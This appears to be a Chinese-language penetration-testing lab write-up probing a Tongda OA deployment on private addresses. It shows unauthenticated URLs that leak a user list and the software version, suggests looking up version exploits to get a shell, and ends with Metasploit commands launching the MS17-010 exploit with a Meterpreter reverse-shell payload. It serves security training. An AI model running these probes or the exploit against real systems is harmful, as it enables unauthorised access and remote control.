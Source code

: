 ![image-20220307164724429](https://gitee.com/xxb667/img/raw/master/img/image-20220307164724429.png)

```
http://192.168.1.19/general/sms/
```

![image-20220307164753728](https://gitee.com/xxb667/img/raw/master/img/image-20220307164753728.png)

```
http://192.168.1.19/general/search.php
```

```
[ { "id": "chenchangliu", "label": "陈长流", "value": "陈长流" }, { "id": "chenfeifei", "label": "陈飞飞", "value": "陈飞飞" }, { "id": "chenqiang", "label": "陈强", "value": "陈强" }, { "id": "liumingcai", "label": "刘明才", "value": "刘明才" }, { "id": "naideshi", "label": "念得失", "value": "念得失" }, { "id": "wangwu", "label": "王舞", "value": "王舞" }, { "id": "wuhai", "label": "吴海", "value": "吴海" }, { "id": "yinyunfei", "label": "伊云飞", "value": "伊云飞" }, { "id": "zhangshan", "label": "张山", "value": "张山" }, { "id": "changbai", "label": "常白", "value": "常白" }, { "id": "__SEARCH_HELP__", "label": "搜索在线帮助", "value": "" } ]
```

```
http://192.168.1.19/general/pass.php
```

![image-20220307164858398](https://gitee.com/xxb667/img/raw/master/img/image-20220307164858398.png)

## 

## 2.2 通达OA版本识别

  

```
http://192.168.1.21/inc/expired.php
```

- 通达OA 漏洞非常多，
- 漏洞探测可以直接搜对应的版本号相关的漏洞  
- 例如 
  - 搜 `通达OA11.3漏洞利用`
  - 或者找对应的工具直接getshell

![image-20220309135638658](https://gitee.com/xxb667/img/raw/master/img/image-20220309135638658.png)

## 2.3 永恒之蓝探测

直接metasploit 扫描，发现存在漏洞 这里就不展示永恒之蓝了

```
msfconsole
search ms17-010  #查找模块
use 0
set payload windows/x64/meterpreter/reverse_tcp
set RHOSTS 192.168.1.21
run
```
